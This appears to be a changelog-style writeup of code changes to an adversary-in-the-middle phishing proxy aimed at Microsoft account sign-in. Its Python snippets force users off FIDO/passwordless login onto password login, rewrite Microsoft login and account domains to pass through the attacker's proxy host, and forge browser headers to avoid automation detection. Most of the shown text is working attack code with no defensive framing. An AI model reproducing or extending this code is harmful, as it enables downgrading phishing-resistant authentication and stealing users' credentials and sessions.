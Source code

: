 ### 3. Added Automatic Redirection to Password Flow

When FIDO is detected, the system automatically redirects to password-based authentication:

```python
if fido_in_url or fido_in_content:
    self.log(f"[AiTM] FIDO/passwordless flow detected, redirecting to password flow")
    if is_personal:
        password_url = f"https://login.live.com/login.srf?username={self.user}&wa=wsignin1.0&wtrealm=uri:WindowsLiveID&wctx=bk%3d1456841834%26bru%3dhttps%253a%252f%252fwww.office.com%252f&wreply=https://www.office.com/landingv2.aspx&lc=1033&id=292666&mkt=EN-US&psi=office365&uiflavor=web&forcepassword=1&amtcb=1"
        return redirect(password_url, code=302)
```

### 4. Enhanced Domain Routing

Added intelligent routing for Microsoft consumer domains:

```python
if 'consumers' in path or 'fido' in path:
    target_url = f"https://login.microsoft.com/{path}"
else:
    target_url = f"https://login.live.com/{path}"
```

### 5. Improved Request Headers

Enhanced request headers to avoid automation detection:

```python
headers['User-Agent'] = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36'
headers['Upgrade-Insecure-Requests'] = '1'
headers['Sec-Fetch-Dest'] = 'document'
headers['Sec-Fetch-Mode'] = 'navigate'
headers['Sec-Fetch-Site'] = 'cross-site'
headers['Cache-Control'] = 'max-age=0'
```

### 6. Enhanced URL Rewriting

Added support for all Microsoft consumer domains:

```python
replacements = [
    ('https://login.microsoftonline.com/', f'https://{current_host}/proxy/'),
    ('https://login.live.com/', f'https://{current_host}/proxy/'),
    ('https://login.microsoft.com/', f'https://{current_host}/proxy/'),
    ('"https://login.microsoft.com', f'"https://{current_host}/proxy'),
    ("'https://login.microsoft.com", f"'https://{current_host}/proxy"),
    ('https://account.live.com/', f'https://{current_host}/proxy/'),
    ('https://account.microsoft.com/', f'https://{current_host}/proxy/'),
]
```

